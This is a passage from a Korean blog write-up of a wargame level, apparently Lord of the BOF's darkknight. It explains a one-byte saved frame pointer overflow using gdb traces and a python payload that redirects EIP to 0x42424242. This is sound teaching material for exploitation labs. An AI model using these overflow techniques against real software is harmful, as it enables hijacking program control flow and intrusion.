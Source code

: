 `0x0804849e` 주소는 main함수에서 problem_child 함수를 호출하고 난 바로 다음 코드의 주소이다.



##### 3) main함수에서 problem_child함수 스택 정리

<img src="http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/1571215063447.png" width="600px">

`add %esp, 4` 명령어를 수행하게 되면 esp값은 4가 증가하게 된다.

그리고나서 바로 main함수의 leave와 ret를 만나게 된다.



##### 4) main 함수의 leave

<img src="http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/1571275687784.png" width="600px">

`mov esp, ebp`명령에 의해서 esp값이 `0xbffffc43`으로 바뀐다.

<img src="http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/1571276328187.png" width="600px">

`pop ebp`명령으로 esp가 가리키고 있는 값(0xfffc7440)이 ebp에 들어가게 된다. 스택의 정확한 값들을 살펴보면 다음과 같다.

```
(gdb) x/4x 0xbffffc43
0xbffffc43:     0xfffc7440      0x00a970bf      0xfffe2f40      0xfffcacbf
```



##### 5) main 함수의 ret

<img src="http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/1571276427498.png" width="600px">

그리고 `pop eip` 명령을 통해 esp가 가리키고 있던 주소(0xbffffc47)의 값 `0x00a970bf` 값이 eip로 들어가고 esp는 4증가한다.  그리고 최종적으로 `jmp eip`를 통해 해당 주소로 점프해 명령을 수행하게 된다.

![](http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/gif.GIF){: width="70%" height="70%"}

-----

이렇게 하나하나보면 장황해보이지만 정리하면 간단하다.

처음 우리가 problem_child함수의 SFP를 1byte 조작하여 `0xbffffc43` 으로 조작되었고, 최종적으로 실행되는 명령주소는 `0xbffffc47` 주소에 들어있는 주소값(조작한 값의 +4한 주소)이다.

정확하게 확인해보자.

buffer의 시작주소는 `0xbffffc84`이다. 마지막 1byte를 `\x84` 로 바꿔보자. (-4 하지 않은 값)

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"B"*36+"\x84"'`
AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB꾻퓹♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -q -c core
Core was generated by `./aarkknight AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```
